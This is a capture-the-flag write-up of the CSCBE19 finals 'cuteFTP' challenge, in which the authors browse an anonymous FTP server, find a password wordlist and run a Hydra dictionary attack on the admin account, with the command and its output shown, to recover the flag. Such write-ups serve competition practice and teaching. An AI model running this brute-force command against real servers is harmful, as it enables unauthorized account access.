 ```yaml
---
layout: posts
title:  Finals CSCBE19 - cuteFTP (Misc - 120 pts)
date:   2019-03-02
categories: [CTFs, finalscscbe19]
---
```


[~$ cd ..](/ctfs/finalscscbe19/2019/03/02/index.html)


Author: [alect096](https://alect096.github.io/CTFs/CSCBE2019/finals_saturday/cuteFTP/)

> A chaotic admin set up an FTP challenge but might have misplaced some files.
> 63.35.125.97:21

We firstly logged in as anonymous without password. We were able to access to some files and folders.

In those files we found a lot of pictures of cats, [lists of words](kublaiBADPASSWORDS.list) and a [list of users](/assets/res/CTFs/finalscscbe19/cuteFTP/users.list).
On the other hand we had a folder with subfolders representing the users. In the admin folder we found a [README.txt](/assets/res/CTFs/finalscscbe19/cuteFTP/README.txt), here is the content:

> Please don't abuse this server! This FTP server is used to share my favourite cats (there's only one thing I like more than cats). Feel free to browse through them and download your favourites. If you want to add your own cats shoot me a mail (darthcatlover9001@sharklasers.com) and I'll give you a user account. The cats you add will then appear in the /users/username/public folder.
>
> If you're into lists instead of cats you might also like my other FTP server. I sometimes get confused so if I misplaced a list on this server please let me know.
>
> ~JarJar B. McPaws~

And a [thanksto.txt](/assets/res/CTFs/finalscscbe19/cuteFTP/thanksto.tx) containing:

> Thanks to:  
> -Maxogden (for helping me start my collection)  
> -Charlottd  
> -Charlottf  
> -Dennis  

Thanks to the list, we thought about launching a dictionary attack on the FTP service to try to log in with the admin account.

We decided to use Hydra to perform this action.

> hydra 52.17.165.245 ftp -l admin -P /root/Desktop/kublaiBADPASSWORDS.list  
> 	Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.  
>
>	Hydra (http://www.thc.org/thc-hydra) starting at 2019-03-30 11:29:09
> 	
>	[DATA] max 16 tasks per 1 server, overall 16 tasks, 666 login tries (l:1/p:666), ~42 tries per task  
>	[DATA] attacking ftp://52.17.165.245:21/  
>	[STATUS] 96.00 tries/min, 96 tries in 00:01h, 570 to do in 00:06h, 16 active  
>	[STATUS] 85.67 tries/min, 257 tries in 00:03h, 409 to do in 00:05h, 16 active  
>		[21][ftp] host: 52.17.165.245   login: admin   password: cookies  
>	1 of 1 target successfully completed, 1 valid password found  
>	[WARNING] Writing restore file because 2 final worker threads did not complete until end.
>	[ERROR] 2 targets did not resolve or could not be connected  
>	[ERROR] 16 targets did not complete  
>	Hydra (http://www.thc.org/thc-hydra) finished at 2019-03-30 11:36:07

We are now able to log in with the admin account and the password `cookies`.

On this account we found a file in the following path [/admin/flag.txt](/assets/res/CTFs/finalscscbe19/cuteFTP/flag.txt):

**CSC{I'm_a_flag-da-be-die-dabe-flag!}**

